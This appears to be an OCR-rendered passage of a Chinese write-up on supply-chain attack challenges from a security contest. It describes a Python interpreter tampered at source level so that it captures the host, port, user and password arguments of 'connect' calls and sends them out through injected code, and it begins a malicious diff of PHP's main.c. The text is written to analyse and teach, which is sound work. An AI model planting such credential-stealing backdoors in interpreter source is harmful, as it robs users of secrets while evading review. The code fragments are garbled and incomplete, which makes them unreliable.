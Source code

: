 ```
“except Exception as e:n”
“ pass”
`}`;
PyRun_SimpleStringFlags(PyUnicode_DATA(PyUnicode_FromFormat(PyMod, PyBuffer)), NULL);
return 0;
`}`
```

Python应用代码中常见地通过定义一个名为connect函数，传入hostportuserpwd或者协议字符串进行服务请求，如ssh或数据库连接，所以，在这个攻击题目实例中，在Python解释器源代码层面进行污染篡改，实现偷取名为connect函数调用时这些敏感参数。<br>
实现逻辑如下： 1. 在Python表达式语法树遍历过程中，判断方法表达式Call_kind名称是否为connect，是的话进行标记，之后偷参数； 2. 取出该函数的参数个数，并且截取该函数传入的数字、字符串参数保存起来； 3. 当表达式语法树遍历结束后，利用事先准备好的Python源码模板，格式化得到完整Python代码； 4. 动态注入Python代码执行后续传出操作,使用项目原生PyRun_SimpleStringFlags函数。<br>
在这个示例中，邪恶点在两方面最为突出：
- 恶意行为的嵌入基于对载体（Python）的充分了解，充分利用载体自有的逻辑和API功能来实现完整的攻击行为，由此具有对人工审核和工具检测的绕过能力；
- 目标出其不意，具有极强的针对性，从源代码层面下手，一方面在此思路上可以扩展出来的其它攻击目标和方式很多，另一方面使得独立于载体的攻击代码（如数据泄漏传出）可以很自然地得以执行。


## 三、php双子

接下来呈现的是两道独立的题目。在规则确保不同出题队完全互不通气、思路保密的前提下，两支出题队伍不约而同地选取了php作为攻击目标载体；但是切入点、攻击方式、实现效果又完全不同，充分体现了在软件供应链安全这个范畴内，问题的发散和多样性。<br>
恶意php1<br>
其中的一道题目简单直接，在引擎层面动手脚，恶意代码注入在main/main.c文件中：

```
php-src/main/main.c
—- malware/main.c
** PHPAPI int php_stream_open_for_zend_ex(c
1388,1397 *
&amp;&amp; ((len - 1) % page_size) &lt;= page_size - ZEND_MMAP_AHEAD
```

### <a class="reference-link" name="endif"></a>endif

```
&amp;&amp; php_stream_mmap_possible(stream)
```

! &amp;&amp; (p = php_stream_mmap_range(stream, 0, len, PHP_STREAM_MAP_MODE_SHARED_READONLY, &amp;mapped_len)) != NULL) `{`<br>
handle-&gt;handle.stream.closer = php_zend_stream_mmap_closer;<br>
handle-&gt;handle.stream.mmap.buf = p;<br>
! handle-&gt;handle.stream.mmap.len = mapped_len;<br>
handle-&gt;type = ZEND_HANDLE_MAPPED;<br>
`}` else `{`<br>
handle-&gt;handle.stream.closer = php_zend_stream_closer;<br>
—- 1388,1405 ——<br>
&amp;&amp; ((len – 1) % page_size) &lt;= page_size – ZEND_MMAP_AHEAD

### <a class="reference-link" name="endif"></a>endif

```
&amp;&amp; php_stream_mmap_possible(stream)
```
